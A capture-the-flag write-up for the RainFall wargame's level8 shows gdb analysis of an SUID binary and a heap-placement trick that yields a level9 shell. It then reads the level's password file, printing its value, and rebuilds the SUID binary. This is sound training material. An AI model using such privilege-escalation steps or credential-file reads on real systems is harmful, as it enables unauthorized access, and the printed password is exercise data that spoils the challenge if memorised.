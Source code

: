 # Level 8

## Vulnerability

Idiocy

## Context

We find a binary with owner level9 and SUID.
```
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```
When run accepts input on stdin and prints 2 null values.
```
level8@RainFall:~$ ./level8
(nil), (nil)
wait... what?
(nil), (nil)
```

## Solution

Investigating with gdb, we find the main reads stdin with fgets() accepting commands.

It calls system("/bin/sh") after several conditional jumps.
```
level8@RainFall:~$ gdb -q level8
...
(gdb) disas main
...
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
...
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
if we cat the binary we find some strings that look like commands
```
level8@RainFall:~$ cat level8
...
auth resetservicelogin/bin/shPassword:
```
Playing with these commands as input to ```level8``` we find the following:

* ```auth```    : calls ```strcpy()```, copies input following auth into global variable ```auth```.
* ```service``` : calls ```strdup()```, copies input following service into global variable ```service```.
* ```reset```   : calls ```free()```, resets global variable auth.
* ```login```   : If auth[32] is non-zero call ```system()```. Else ```fwrite()``` displays address of global variables ```auth``` and ```service```.

malloc() places each pointer successively on the heap, with some padding. In this case we see 16 bytes between pointers.

To make auth[32] non-zero we can attempt to place our ```service``` variable 32 bytes after ```auth``` on the heap.

Create the first pointer with command ```auth```, then a second calling ```service``` twice. We see ```service``` is now exactly 32 bytes after ```auth```.

So when we call login auth[32] is non-zero and we are given a new shell as user ```level9``` where we can ```cat``` the password.
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth please
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
Alternatively, create the ```auth``` pointer first, then a second calling ```service``` with any string at least 16 bytes long.
```
auth I mean...
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```

## Recreate Exploited Binary

As user ```level9```, in ```/tmp```, create and compile ```level8_source.c```
```
level9@RainFall:/tmp$ gcc level8_source.c -o level8_source
```
Edit permissions including suid, then move the binary to home directory.
```
level9@RainFall:/tmp$ chmod u+s level8_source; chmod +wx ~; mv level8_source ~
```
Exit back to user ```level8```, then run the source.
```
level9@RainFall:/tmp$ exit
exit
level8@RainFall:~$ /home/user/level9/level8_source
(nil), (nil)
auth please
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```
